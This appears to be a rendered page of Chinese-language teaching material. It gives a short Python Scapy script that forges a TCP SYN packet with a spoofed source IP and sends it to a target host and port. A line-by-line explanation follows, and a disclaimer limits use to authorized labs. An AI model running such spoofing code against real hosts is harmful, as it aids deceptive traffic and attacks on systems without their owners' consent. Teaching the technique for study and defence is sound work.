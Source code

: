 > #### IP欺骗攻击示例代码
>
> ```python
> from scapy.all import *
> 
> # 目标IP和端口
> target_ip = "192.168.1.10"  # 替换为实际目标IP
> target_port = 80            # 替换为实际目标端口
> 
> # 伪造的源IP和端口
> fake_source_ip = "192.168.1.1"  # 替换为伪造的源IP
> fake_source_port = 12345         # 替换为伪造的源端口
> 
> def ip_spoofing_attack(target_ip, target_port, fake_source_ip, fake_source_port):
>     # 构建IP层
>     ip_layer = IP(src=fake_source_ip, dst=target_ip)
>     
>     # 构建TCP层
>     tcp_layer = TCP(sport=fake_source_port, dport=target_port, flags="S", seq=1000)
>     
>     # 构建并发送伪造的数据包
>     packet = ip_layer / tcp_layer
>     send(packet, verbose=False)
>     print(f"Sent spoofed packet: {fake_source_ip}:{fake_source_port} -> {target_ip}:{target_port}")
> 
> if __name__ == "__main__":
>     print(f"Starting IP Spoofing attack on {target_ip}:{target_port} with fake source {fake_source_ip}:{fake_source_port}")
>     try:
>         ip_spoofing_attack(target_ip, target_port, fake_source_ip, fake_source_port)
>     except KeyboardInterrupt:
>         print("Attack stopped.")
> ```
>
> ### 代码解释
>
> 1. **导入模块**：
>    - `scapy.all`：用于创建和发送网络数据包。
>
> 2. **设置目标IP和端口，以及伪造的源IP和端口**：
>    - `target_ip`和`target_port`：受害者的IP地址和端口。
>    - `fake_source_ip`和`fake_source_port`：伪造的源IP地址和端口。
>
> 3. **IP欺骗攻击的函数`ip_spoofing_attack(target_ip, target_port, fake_source_ip, fake_source_port)`**：
>    - 创建IP层对象并设置伪造的源IP和目标IP地址。
>    - 创建TCP层对象并设置伪造的源端口和目标端口，以及TCP SYN标志和序列号。
>    - 构建并发送伪造的数据包。
>
> 4. **主函数**：
>    - 打印攻击开始的提示信息。
>    - 调用`ip_spoofing_attack`函数发送伪造的数据包。
>    - 捕获键盘中断（CTRL+C），以停止攻击。
>
> ### 重要提示
>
> 此代码仅用于理解IP欺骗攻击的基本原理和教学演示，不得用于任何非法活动。进行IP欺骗攻击是违法行为，可能导致严重的法律后果。请在合法且授权的环境中使用这些知识，例如在受控实验室环境中进行测试和研究。
>
> 如果你有任何关于网络安全的合法用途或研究问题，可以继续深入学习网络安全课程，并利用这些知识进行正当的网络防护和安全检测工作。
